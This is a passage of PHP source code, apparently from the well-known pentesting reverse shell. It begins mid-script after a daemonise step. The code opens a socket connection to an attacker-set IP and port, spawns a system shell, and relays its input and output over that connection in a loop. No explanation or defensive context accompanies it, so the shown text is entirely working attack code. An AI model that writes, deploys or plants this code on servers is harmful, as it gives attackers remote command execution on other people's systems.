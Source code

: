 ```
 $daemon = 1;
} else {
 printit("WARNING: Failed to daemonise. This is quite common and not
fatal.");
}
chdir("/");
umask(0);
// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
 printit("$errstr ($errno)");
 exit(1);
}
$descriptorspec = array(
 0 => array("pipe", "r"), // stdin is a pipe that the child will read from
 1 => array("pipe", "w"), // stdout is a pipe that the child will write to
 2 => array("pipe", "w") // stderr is a pipe that the child will write to
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
 printit("ERROR: Can't spawn shell");
 exit(1);
}
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
 if (feof($sock)) {
 printit("ERROR: Shell connection terminated");
 break;
 }
 if (feof($pipes[1])) {
 printit("ERROR: Shell process terminated");
 break;
 }
 $read_a = array($sock, $pipes[1], $pipes[2]);
 $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
 if (in_array($sock, $read_a)) {
 if ($debug) printit("SOCK READ");
 $input = fread($sock, $chunk_size);
 if ($debug) printit("SOCK: $input");
 fwrite($pipes[0], $input);
 }
 if (in_array($pipes[1], $read_a)) {
 if ($debug) printit("STDOUT READ");
 $input = fread($pipes[1], $chunk_size);
 if ($debug) printit("STDOUT: $input");
 fwrite($sock, $input);
 }
 if (in_array($pipes[2], $read_a)) {
 if ($debug) printit("STDERR READ");
 $input = fread($pipes[2], $chunk_size);
 if ($debug) printit("STDERR: $input");
 fwrite($sock, $input);
 }
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
```